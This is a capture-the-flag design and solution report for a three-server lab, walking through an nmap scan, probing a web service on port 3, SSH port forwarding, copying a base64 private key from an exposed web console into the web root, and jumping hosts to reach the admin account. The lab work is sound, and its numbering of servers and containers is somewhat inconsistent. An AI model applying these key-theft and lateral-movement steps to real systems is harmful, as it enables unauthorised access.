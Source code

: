 ```yaml
---
title:  'CTF Report'
...
```

# Description

This CTF consist of trhee servers. Let's call then server 1, server 2 and server 3.  
The entry server (server 1) has two users: `ctfuser` and `admin`. There is a file called `flag.txt` in the admin users home directory which belongs to admin so the initial access user `ctfuser` can not access it. Server 2 has an HTTP Server running although at port 3, so the fact that it is a webserver at all has to be figured out by other means first. Once the web server is accessed there is a hint in the `/robots.txt` file: The `/webconsole` directory is referred in the robots.txt file. Once the /webconsole directory is accessed you find an interactive shell inside the browser and can access a file called `secret` inside the root directory of the server. This secret is a base64 encoded private rsa key. Once decoded this private key can be used to access the `admin` users of server 1 and 3. An additional challenge being that the admin user from server 1 can only be accessed from server 3 so you have to jump from server 1 to 3 and back to 1.
So now the flag.txt file can be accessed, although this is not actually a text file but actually a binary executable which includes a number guessing game. Only when given the right number as parameter it will output the flag.

# Key Challenges
The key challenges of this CTF include:

- Find the web server: This is a simple nmap scan.
- Figure out that the web server is a web server: A simple nmap scan reveals the open port 3. Then you can connect to port 3 with netcat, send a newline and the server will output an HTTP error message.
- Connect to the web server with a browser: The webconsole is nearly impossible to use over command line tools like netcat, curl etc. And because the web server is not accessible from the users network it is necessary to forward the port to a local port on ssh.
- Download the private key: The webconsole does not allow copy and paste operations from the browser window. You can technically use cat to view the private key and try to copy paste it from the webpages source in the browsers dev tools and strip a bunch of html tags from it. But the easiest way is to use cp to copy the private key to location exposed by the webserver. Than you can just use the browser to download the file.
- Decode the Base64 file
- Jump through server 3. 
- Figure out that the flag.txt file is an executable. Should be apparent when trying to inspect it with cat. The file command is not on installed on the server but if needed the file can be downloaded with scp and inspected on your local machine.
- Make the flag.txt file executable: Just use `chmod +x`
- Win the number guessing game: This is easy as the program tells you if the number is too high or low, so it can be solved in logarithmic time.

# Instructions to solve CTF

- Connect to the ssh server (add the commands for the jump server)

```ssh ctfuser@localhost```

- Find out the network:

```ip a```

- Scan the network

```nmap 192.168.0.0/24```

- Discover that the service running on container 2 port 3 is a web server:

```nc 192.168.0.3 3```

- Exit SSH and create a tunnel to this service through the access container:

```ssh -L 8080:192.168.0.3:3 -p 222 ctfuser@localhost```

- Connect a web browser to this port 8080 and check the `robots.txt` file.

- Go to the `/webconsole` path on the webserver.

- Discover the secret file in the public directory:

```cp /secret /var/www/html```

- Decode the base64 secret to a private rsa key:

```base64 --decode secret > id_rsa```

- Download the key from `http://localhost:8080/id_rsa`

- Using this key connect to container 1 again with admin user by jumping over container 4:

```ssh -J ctfuser@localhost,admin@192.168.0.4 admin@192.168.0.2 -i id_rsa```

- Make the `flag.txt` file executable:

```chmod +x flag.txt```

- Win the guessing game:

```./flag.txt 50```
